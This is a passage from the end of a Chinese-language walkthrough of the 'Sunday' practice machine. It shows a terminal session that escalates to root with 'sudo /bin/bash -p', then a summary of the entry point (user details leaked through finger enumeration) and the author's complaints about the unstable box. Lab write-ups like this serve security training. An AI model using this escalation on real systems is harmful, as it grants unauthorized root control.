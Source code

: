 ```

直接提权到root
```
sunny@sunday:/home$ sudo /bin/bash -p
root@sunday:/home# id
uid=0(root) gid=0(root) groups=0(root),1(other),2(bin),3(sys),4(adm),5(uucp),6(mail),7(tty),8(lp),9(nuucp),12(daemon)
root@sunday:/home# whoami
root

```

# 总结
切入点就是finger泄露的用户信息一步步渗透进系统，提权也很简单。但是这台靶机真是太不稳定了，体验好差，上论坛发现也是一堆人在吐槽。
枚举finger的时候可以不用msf，github上很多枚举脚本。